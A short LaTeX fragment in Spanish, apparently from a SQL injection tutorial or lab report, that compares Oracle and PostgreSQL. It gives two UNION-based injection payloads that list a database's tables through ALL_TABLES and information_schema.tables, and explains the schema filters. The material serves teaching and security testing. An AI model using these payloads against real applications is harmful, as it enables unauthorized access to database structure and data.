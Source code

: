 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsubsection{Obtención de todas las tablas de la base de datos}
Para obtener un listado de todas las tablas, Oracle utiliza la vista \texttt{ALL\_TABLES}, mientras que PostgreSQL emplea \texttt{information\_schema.tables}. Las inyecciones correspondientes son:

\begin{itemize}
    \item \textbf{Oracle}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT 1, NULL, OWNER, TABLE_NAME FROM all_tables WHERE OWNER='SYSTEM' --
    \end{lstlisting}

    \item \textbf{PostgreSQL}:
    \begin{lstlisting}[language=SQL]
    cualquier_input' UNION SELECT NULL, NULL, table_schema, table_name 
    FROM information_schema.tables WHERE table_schema = 'public'; --
    \end{lstlisting}
\end{itemize}

\textbf{Diferencias clave:}
\begin{itemize}
    \item En PostgreSQL, la vista \texttt{information\_schema.tables} se utiliza para obtener un listado de tablas, donde \texttt{table\_schema} corresponde al esquema del propietario de la tabla y \texttt{table\_name} al nombre de la tabla.
    \item La condición \texttt{WHERE table\_schema = 'public'} se utiliza en PostgreSQL para filtrar las tablas creadas en el esquema \texttt{public}, que es el predeterminado en muchas aplicaciones.
    \item Al igual que en Oracle, es posible agregar filtros adicionales en PostgreSQL para excluir tablas del sistema o irrelevantes, utilizando condiciones como \texttt{table\_name NOT LIKE 'pg\_\%'}.
\end{itemize}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{Imagenes/union9.png}
    \caption{Obtención de tablas de la base de datos en PostgreSQL}
\end{figure}
\end{document}
